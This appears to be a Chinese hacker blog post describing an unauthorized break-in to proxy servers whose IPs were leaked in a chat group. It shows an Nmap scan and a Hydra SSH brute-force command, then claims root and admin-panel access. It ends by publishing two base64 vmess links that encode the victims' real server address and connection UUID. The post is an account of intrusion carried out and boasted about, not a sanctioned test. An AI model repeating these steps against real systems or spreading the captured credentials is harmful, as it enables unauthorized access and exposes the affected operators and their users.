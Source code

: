 ```yaml
---
title: 非法搭建机场获取权限
author: APT - 0x44LL
date: 2021-12-25
category: Jekyll
layout: post
---
```


## 天网恢恢 疏而不漏
![smiley](/public/DocsPics/2022-01-10-V2rayAttack/20220207155219.png)

根据wx群聊看到有人发机场截图并暴露了IP地址
![smiley](/public/DocsPics/2022-01-10-V2rayAttack/20220207155341.jpg)

于是全部记录了下来，依次排列好；

```
168.63.xxx.106
20.187.xxx.80
20.205.xxx.204
20.212.xxx.178
```

快速Nmap扫描了一波；
![smiley](/public/DocsPics/2022-01-10-V2rayAttack/20220207155424.png)

看到22端口开放
Hydrawin版本加载字典进行端口爆破，当然要使用上我亲自开过光的字典和飞升过的动态IP了

```
hydra.exe -l root -P 22 开光字典.txt -vV -o ssh.log -e ns 127.0.0.1 ssh
```

![smiley](/public/DocsPics/2022-01-10-V2rayAttack/20220207155510.png)

**于是就这样进入了服务器...**


数据库
面板账户唯一登入密码
![smiley](/public/DocsPics/2022-01-10-V2rayAttack/20220207155528.png)

所有的管理后台面板全部拿到权限
![smiley](/public/DocsPics/2022-01-10-V2rayAttack/20220207155602.png)
![smiley](/public/DocsPics/2022-01-10-V2rayAttack/20220207155713.png)

```
vmess://ewogICJ2IjogIjIiLAogICJwcyI6ICJBWi1GMlMtSEstODAtV1MiLAogICJhZGQiOiAiMTY4LjYzLjIxMi4xMDYiLAogICJwb3J0IjogODAsCiAgImlkIjogIjRjOTA4ZTgxLWM2YzYtNGNiNy1lZDQ5LWRjODhlN2NkZjkxNCIsCiAgImFpZCI6IDAsCiAgIm5ldCI6ICJ3cyIsCiAgInR5cGUiOiAibm9uZSIsCiAgImhvc3QiOiAiZ3cuYWxpY2RuLmNvbSIsCiAgInBhdGgiOiAiIiwKICAidGxzIjogIm5vbmUiCn0=
```

```
vmess://ewogICJ2IjogIjIiLAogICJwcyI6ICJBWi1CMVMtSEstODAtV1MiLAogICJhZGQiOiAiMjAuMjA1LjExOC4yMDQiLAogICJwb3J0IjogODAsCiAgImlkIjogIjhjYzgwOWQzLTk1YzAtNDg4Yi1jZmUwLTk4ZWVlZDM4MzYzYiIsCiAgImFpZCI6IDAsCiAgIm5ldCI6ICJ3cyIsCiAgInR5cGUiOiAibm9uZSIsCiAgImhvc3QiOiAiZ3cuYWxpY2RuLmNvbSIsCiAgInBhdGgiOiAiIiwKICAidGxzIjogIm5vbmUiCn0=
```
![smiley](/public/DocsPics/2022-01-10-V2rayAttack/20220207155731.png)